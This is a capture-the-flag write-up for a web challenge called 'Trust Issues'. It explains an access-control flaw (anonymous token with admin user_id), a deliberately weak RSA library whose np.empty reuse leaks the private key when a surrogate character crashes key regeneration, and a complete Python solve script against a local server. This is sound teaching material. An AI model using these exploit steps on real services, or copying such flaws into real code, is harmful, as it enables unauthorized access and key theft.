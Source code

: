 # Trust Issues


## A little bit of context

The challenge starts with a simple and horrendous website. A pretty obvious goal is stated in the index page: **`But will you find my own secret?`**

When you go on the page linked with this sentence you don't have access to the secret because `You don't have the rights to get it`.

Another link in the index.html go to another page allowing the user to encrypt and send messages to the api.

In the footer, two links leads to an about and a contact page. There is nothing on the contact page but on the about one, some thanks are stated. It confirms the the website use Python and credit FastApi but just after that a library called "timosbadlibraries" is mentioned.

Lastly a login page provides a form to login and gives a way to connect anonyously.

Now that the context is given, we can explain how to solve it. 

## Solution

This challenge has three distinct steps:
- Get the private key
- Find the library behind the server then analyse it.
- Exploit the bad RSA implementation

I will give a python solve script at the end but I will explaint every steps a CTF participant should have taken.

The fist two steps can be done independantly. After they are passed, the real exploit begin.

### Finding the encrypted secret

To do so, a simple api vulnerability is used. It is a bit guessy as the login form may be miss-leading, however, the independant verification of the validity token and a user rights is a common mistake.

The anonymous token is sufficient ant the admin id is 2 so to get the encrypted flag, we need to use these path parameters

`/get/secret?token=anonymous&user_id=2`

### Getting the library

The library is publicly on the web in two different spots:
- [github]()
- [pypi]()

The simplest and more natural way to get it is to use pip (or to search on pypi) since it is the default pyton package manager. 

`python3 -m pip install timosbadlibrary`

### Analysing the library

To people coding secure libs, the use of `np.empty` function should trigger an alert in their brain. Like when coding in C, and python is in fact more about C code than anything else, an empty array preserve previous memory allocation.

Testing locally will prove that the pointers used by numpy to allocate the arrays are always the same, just offsetting by 1 every time the two arrays are created (I might see what is inside this function to uderstand completely the reason behind the rotation even though I have an idea why).

Now we can inspect the server in the library and we see that the library recreate a new RSA class instance, log a reason why the change is made and then generate a new key pair. So if we crash the function logging the reason, the new pair won't be generated but the arrays will be created, and as the offet move, the public key array pointer will be set on the last private key pointer after two crashes.

Finaly, to crash the function, a simple unicode character passed to the `encode` method will do the job!

### Bringing everything together

```py
import requests
import json
from timosbadlibraries.RSAServer import RSA      #   python3 -m pip install timosbadlibraries

url = "http://127.0.0.1" # to change by yours

requests.put(url + '/put/change_key', json={'reason': 'Starting'})

# get the public key"
r = requests.get(url + '/get/public_key')
pubKey = json.loads(r.content)['public_key']

# get e and n
e = int(pubKey['e']).to_bytes(256)
n = int(pubKey['n']).to_bytes(256)

# get encrypted flag
r = requests.get(url + '/get/secret?token=anonymous&user_id=2')
secret = json.loads(r.content)['secret']

# trigger error to exploit numpy's empty function
requests.put(url + '/put/change_key', json={'reason': '\ud861'})
requests.put(url + '/put/change_key', json={'reason': '\ud861'})

# get public key that is in fact the private key after the exploit
r = requests.get(url + '/get/public_key')
privKey = json.loads(r.content)['public_key']

# get d
d = int(privKey['e']).to_bytes(256)
# n = int(privKey['n']).to_bytes(256)        == int(pubKey['n']).to_bytes(256)

# using the lib because it is easyer
rsa = RSA()

# loading the parameters, no neet to generate keys...
rsa.private_key[0] = n
rsa.public_key[0] = n
rsa.private_key[1] = d
rsa.public_key[1] = e

# decrypt the flag
flag = rsa.decrypt(int(secret))
print(flag)
```


